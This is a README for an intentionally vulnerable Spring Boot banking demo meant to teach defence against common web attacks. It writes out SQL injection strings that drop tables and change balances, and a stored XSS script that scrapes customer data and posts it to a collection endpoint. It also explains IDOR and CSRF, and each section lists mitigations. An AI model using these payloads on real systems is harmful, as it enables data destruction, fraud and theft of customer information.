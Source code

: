 # Security Vulnerability Demo

The purpose of this application is to illustrate a few common security vulnerabilities in web applications. Understanding how these exploits work is critical in being able to defend against them. 

## Application Setup

This application runs in two different modes: 
* Secure - proper protections and being used to mitigate the attacks
* Insecure - the application is exposed to attacks

To run it in either mode, use the spring profile field when starting the app as follows:

Insecure

`mvn spring-boot:run -Dspring.profiles.active=insecure`
Use a browser to access `http://localhost:8080`

Secure

`mvn spring-boot:run -Dspring.profiles.active=secure`
User a browser to access `http://localhost:8081`

In secure mode, you also have the option to enable or disable input validation using the following flag in `application-secure.properties`

`input.validation.enabled=false`

Disabling input validation will allow you to illustrate the power of an ORM and output encoding in protecting against attacks even when input validation does not occur.

Currently, the application illustrates the following vulnerabilities
* SQL Injection
* Stored Cross-Site Scripting (XSS)
* Insecure Direct Object Reference
* Cross-Site Request Forgery 

To use the application, you can log in as an employee or a customer after clicking on either the Employee Portal or Customer Portal link. For simplicity, no password is needed to log in.

| Username | Role | 
| --- | --- |
| emp | Employee |
| liz | Customer |
| katie | Customer |

To view the in-memory H2 database, click the H2 Database Console link and login using the JDBC URL `jdbc:h2:mem:testdb` and the username `user` with a blank password. From there, you should be able to see the console (pictured below) which will allow you to run SQL queries on the database.

![H2 Database Console Image](h2-capture.PNG)

## SQL Injection

To exploit this vulnerability, log in as a customer and inject SQL into the first name field as follows

`'; SQL Here; --`

For example:

`'; DROP TABLE customer; --`

`'; UPDATE bank_account SET balance=999999999 WHERE customer_id=2; --`

`Liz' where customer_id=2; UPDATE bank_account SET balance=0 WHERE account_id=1; UPDATE bank_account SET balance=900000000 where account_id=4; --`

You may view the database by logging into the H2 console by clicking the link from the index page. The connection details are found in the application.properties file.

Defending against this vulnerability can be done at multiple levels
* ORM
* Input validation
* Database permissions restrictions

## Cross-Site Scripting

To exploit this vulnerability, log in as a customer and inject the following javascript into the first name field as follows

`<script type="text/javascript">$(document).ready(function(){var accountInfo="";$("table").children("tbody").children("tr").each(function(){$(this).children("td").each(function(){accountInfo=accountInfo+";"+$(this).text();});});$.post("http://localhost:8080/receive-hack", {accountInfo:accountInfo});});alert("You have been hacked!");</script>`

This attack will allow a malicious user to inject a script into the database that then will run on the employee level and expose customer details to another endpoint controlled by the malicious user. In this case, it is simply the same app server, but this would be different in a real attack.

Defending against this vulnerability can be done at multiple levels
* Validating user input 
* Encoding dynamic output on web pages

## Insecure Direct Object Reference

To exploit this vulnerability, log in as a customer and type in the following url which will allow you to access sensitive employee-only information directly.

`/sensitive`

This attack allows users to access information that they should not be authorized to access. 

Defending against this vulnerability can be done through multiple authorization mechanisms
* URL-level protection
* Method-level security with role-based access configuration
* Method pre-authorization configuration

## Cross-Site Request Forgery

To exploit this vulnerability, log in as an employee and then open the `csrf-example.html` in your browser which simulates an attacker's website. For the insecure mode, click the `Insecure CSRF` button and notice that account 1 for customer Katie Fake has been removed from the system. For secure mode, click the `Secure CSRF` and notice that the request is not processed by the system and the Forbidden Resource page is displayed. 

The CSRF attack will allow a malicious user to craft links/forms that can be sent over email or posted to forums that take advantage of the fact that a user may be already authenticated and authorized to perform actions on the targeted site. In this case, it closes an account that still has a balance.

Defending against this vulnerability can be done through multiple mechanisms
* Use random CSRF tokens that are automatically generated and must be supplied in order to perform a state-changing operation during a POST request. Notice the hidden input in the secure mode of the application with attribute `name="_csrf"`
* Check the refferer header in the client's HTTP request